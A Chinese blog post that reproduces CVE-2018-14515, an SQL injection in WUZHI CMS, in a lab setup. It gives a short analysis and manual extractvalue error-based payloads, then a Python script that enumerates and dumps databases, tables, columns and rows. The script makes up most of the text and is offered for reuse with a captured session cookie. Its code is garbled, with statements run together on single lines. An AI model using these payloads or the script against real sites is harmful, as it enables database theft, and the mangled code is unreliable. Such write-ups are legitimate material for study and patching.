





# cve-2018-14515 复现 - windy_ll - 博客园

> 原文：[`www.cnblogs.com/aWxvdmVseXc0/p/10188374.html`](https://www.cnblogs.com/aWxvdmVseXc0/p/10188374.html)

一、环境

Windows NT WIN-RRI9T9SN85D 6.1 build 7600 (Windows 7 Business Edition) i586

Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45

靶机：192.168.16.129

攻击机：192.168.16.127

二、漏洞分析


在 search 函数内，首先判断 page 变量是否已定义，若未定义，将处理后的全局变量赋值给局部变量 page，然后将局部变量 page 与 1 比较大小，然后将全局变量 fieldtype 和 keywords 分别赋值给局部变量 fieldtype 和 keywords。在判断 fieldtype 的值，在做相应连接数据库的操作。

代码未对传入进来的参数做相应的过滤，通过覆盖全局变量的方式，即可插入恶意代码，达到脱库的目的。

三、利用

注册用户，进入后台后利用 http://192.168.116.129/ index.php?m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=’可以发现单引号未被过滤，利用 http://192.168.116.129/index.php?m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=%27%20and+extractvalue(1,concat(0x7e,(select database())))%23 即可（图忘记截了，就不放图了）。



下面利用 python 脚本直接爆库，先放效果图：










直接上代码（环境:python3.6）：

```
#author:windy_2
import requests from bs4 import BeautifulSoup from optparse import OptionParser

url = 'http://192.168.116.129:8000' header = { 'Host': '192.168.116.129:8000', 'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0', 'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8', 'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2', 'Accept-Encoding': 'gzip, deflate', 'Connection': 'keep-alive', 'Cookie': 'PHPSESSID=1dhmdr31qhf21qeccbthsjtkk5; ReI_auth=YpulBMeZ6899eyzsh5HxUbcTdlc23iiQFSGIwpYlkLOtVPdkBc49aEAcWedq6QZ%2BaCHSr6zKJNaLYC6oDqFBzlFuZmyG9UoAvQjj5EVoP1Pa2e4uQwq86Q%3D%3D; ReI__uid=92CBGuVr6Ok2K6kWBxNbcQ%3D%3D; ReI__username=y5zrNmFTk6rooHN926QcJg%3D%3D; ReI__groupid=nAyjF%2FwRrNH%2BOMee0Fc%2Fsw%3D%3D; ReI_truename=admin; ReI_modelid=10; ReI_uid=ucD6e6GM855APZII7rll7A%3D%3D; ReI_username=2YMzaR7%2FAZU5sNME3D5XdQ%3D%3D; ReI_wz_name=z7TSlBEBFOkSFIN%2BxBxp7A%3D%3D; ReI_siteid=WxKXvTpR7lxWOkKhIDfeag%3D%3D', 'Upgrade-Insecure-Requests': '1', 'Cache-Control': 'max-age=0'} def get_contents(html):
    flag = 0
    nr = '' list = []
    soup = BeautifulSoup(html.content,'lxml')
    list = soup.find_all('h4')
    contents = list[0].span.get_text() for i in contents: if i == '~':
            flag = 1
        if flag == 1: if i == ',' or i == '\'': if i == None: print(f'[+] no data') else: print(f'[+] {nr}')
                nr = ''
                continue
            else: if i != '\'' and i != '~':
                    nr += str(i) def get_columns(html):
    flag = 0
    nr = '' list = []
    soup = BeautifulSoup(html.content,'lxml')
    list = soup.find_all('h4')
    contents = list[0].span.get_text() for i in contents: if i == '~':
            flag = 1
        if flag == 1: if i == ',' or i == '\'': return nr
                nr = ''
                continue
            else: if i != '\'' and i != '~':
                    nr += str(i) def get_num(html):
    flag = 0
    nr = '' list = []
    soup = BeautifulSoup(html.content,'lxml')
    list = soup.find_all('h4')
    contents = list[0].span.get_text() for i in contents: if i == '~':
            flag = 1
        if flag == 1: if i == ',' or i == '\'': return nr
                nr = ''
                continue
            else: if i != '\'' and i != '~':
                    nr += str(i) def get_count(payload):
    r = requests.get(payload,headers = header)
    num = get_num(r) return num def get_data():
    payload_count = url + '/index.php?m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=%27%20and+extractvalue(1,concat(0x7e,(select count(*) from information_schema.schemata)))%23' num = get_count(payload_count)
    num = int(num) print('[*]available database:') for i in range(0,num):
        payload = url + '/index.php?m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=%27%20and+extractvalue(1,concat(0x7e,(select schema_name from information_schema.schemata limit ' + str(i) + ',1)))%23' r = requests.get(payload,headers = header)
        get_contents(r) print(f'[-] {num} database',end='') def get_tables(data):
    payload_count = url + '/index.php?m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=%27%20and+extractvalue(1,concat(0x7e,(select count(*) from information_schema.tables where table_schema=\'' + str(data) + '\')))%23' num = get_count(payload_count)
    num = int(num) print(f'[*] databse {data}:') for i in range(0,num):
        payload = url + '/index.php?m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=%27%20and+extractvalue(1,concat(0x7e,(select table_name from information_schema.tables where table_schema = \'' + data + '\' limit ' + str(i) + ',1)))%23' r = requests.get(payload,headers = header)
        get_contents(r) print(f'[-] {num} tables',end='') def get_column(table):
    payload_count = url + '/index.php?m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=%27%20and+extractvalue(1,concat(0x7e,(select count(*) from information_schema.columns where table_name=\'' + str(table) + '\')))%23' num = get_count(payload_count)
    num = int(num) print(f'[*] table {table}:') for i in range(0,num):
        payload = url + '/index.php?m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=%27%20and+extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name = \'' + str(table) + '\' limit ' + str(i) + ',1)))%23' r = requests.get(payload,headers = header)
        get_contents(r) print(f'[-] {num} columns',end='') def get_column_name(table):
    list = []
    payload_count = url + '/index.php?m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=%27%20and+extractvalue(1,concat(0x7e,(select count(*) from information_schema.columns where table_name=\'' + str(table) + '\')))%23' num = get_count(payload_count)
    num = int(num) for i in range(0,num):
        payload = url + '/index.php?m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=%27%20and+extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name = \'' + str(table) + '\' limit ' + str(i) + ',1)))%23' r = requests.get(payload,headers = header)
        column = get_columns(r)
        list.append(column) return list def get_table_dump(table): print(f'[*] table {table}:')
    payload_count = url + '/index.php?m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=%27%20and+extractvalue(1,concat(0x7e,(select count(*) from ' + str(table) + ')))%23' num = get_count(payload_count)
    num = int(num)
    list = get_column_name(table) for column in list: print(f'[^] column {column}') for i in range(0,num):
            payload = url + '/index.php?m=promote&f=index&v=search&_su=wuzhicms&fieldtype=place&keywords=%27%20and+extractvalue(1,concat(0x7e,(select ' + column + ' from ' + table + ' limit ' + str(i) + ',1)))%23' r = requests.get(payload,headers = header)
            get_contents(r) print(f'[-] {num} notes',end='') def main():
    parse = OptionParser()
    parse.add_option('-D',action = 'store',type = 'string',dest = 'database',help = '列库')
    parse.add_option('-T',action = 'store',type = 'string',dest = 'table',help = '输入数据库名字')
    parse.add_option('-d',action = 'store',type = 'string',dest = 'dump',help = '输入数据表名字')
    parse.add_option('-C',action = 'store',type = 'string',dest = 'tables',help = '输入数据表名字')
    (options,args) = parse.parse_args() if options.database:
        get_data() if options.table:
        data = options.table
        data = str(data)
        get_tables(data) if options.dump:
        table = options.dump
        get_table_dump(str(table)) if options.tables:
        table = options.tables
        get_column(str(table))
main()
```

（使用脚本前将 cookie 换成你自己的）